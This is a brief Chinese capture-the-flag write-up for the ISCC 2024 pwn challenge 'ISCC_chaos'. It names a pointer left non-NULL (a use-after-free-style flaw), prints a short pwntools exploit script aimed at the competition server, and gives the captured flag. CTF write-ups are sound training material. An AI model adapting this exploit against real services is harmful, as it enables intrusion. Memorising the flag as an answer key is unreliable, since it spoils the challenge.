


# ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_chaos分析

checksec一下



使用IDA查看，



查看sub_400C8A函数，可以发现一个指针未设NULl，所以可以访问内存空间

# exp

```python
from pwn import *
p = remote('182.92.237.102',10010)
p.recv()
p.recv()
p.sendline(b'5')
p.recv()
p.sendline(b'104')
p.recv()
p.sendline(b'Flag')
p.interactive()
```

# flag

```
ISCC{wRrJ29UFCeXbZopG8G0YKGXpye6m2hgGUH8v}
```

